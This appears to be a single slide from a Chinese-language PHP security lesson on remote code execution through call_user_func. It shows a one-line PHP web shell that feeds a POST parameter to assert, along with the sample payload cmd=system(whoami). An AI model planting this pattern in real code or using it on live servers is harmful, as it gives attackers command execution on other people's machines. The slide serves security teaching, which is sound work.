

# 远程代码执行 - call_user_func函数
call_user_func(callable $callback [, mixed $parameter [, mixed $......]])

第一个参数callback是被调用的回调函数，其余参数是回调函数的参数。把第一个参数作为回调函数调用。

<?php
call_user_func(“assert”,$_POST[‘cmd’]);
//传入的参数作为assert函数的参数
//cmd=system(whoami)
?>